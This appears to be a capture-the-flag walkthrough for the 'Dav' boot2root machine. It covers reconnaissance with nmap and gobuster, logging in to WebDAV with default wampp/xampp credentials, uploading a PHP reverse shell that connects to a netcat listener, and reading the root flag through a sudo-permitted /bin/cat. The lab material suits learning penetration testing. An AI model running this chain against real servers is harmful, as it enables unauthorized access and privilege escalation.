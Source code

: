# Dav

## Description

boot2root machine for FIT and bsides guatemala CTF

## Challenges

Read user.txt and root.txt

`nmap -A -vv 10.10.217.70`

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:92:E3:CA:87:AF (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=5/5%OT=80%CT=1%CU=42232%PV=Y%DS=1%DC=D%G=Y%M=0292E3%TM
OS:=66379722%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=I%TS=8)
OS:SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)OPS(O1=M2301ST11NW7%O2=M230
OS:1ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)W
OS:IN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6
OS:903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)
OS:T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0
OS:%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

`gobuster dir -u http://10.10.217.70/ -w /usr/share/wordlists/dirb/common.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.217.70/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/05 15:40:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/webdav (Status: 401)
===============================================================
2024/05/05 15:40:28 Finished
===============================================================
```

Check /webdav

![alt text](image.png)

Credentials finded by Google Dorking - https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html
user: wampp
password: xampp

![alt text](image-1.png)

`wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91` - but we already know the password: `xampp`

WebDAV - similar to the ftp. But to connect we need cadaver

`cadaver http://10.10.217.70/webdav`

```
Authentication required for webdav on server `10.10.217.70':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
```

We can upload a reverse shell. For example - https://github.com/pentestmonkey/php-reverse-shell

```
dav:/webdav/> put php-reverse-shell.php
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5494 bytes succeeded.
```

![alt text](image-2.png)

```
root@ip-10-10-93-47:~# nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.217.70 60572 received!
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 08:03:31 up 42 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ cd home
$ ls
merlin
wampp
$ cd merlin
$ ls
user.txt
$ cat user.txt
```

`python -c "import pty; pty.spawn('/bin/bash')"`

```
www-data@ubuntu:/home/merlin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
www-data@ubuntu:/home/merlin$ sudo cat /root/root.txt
```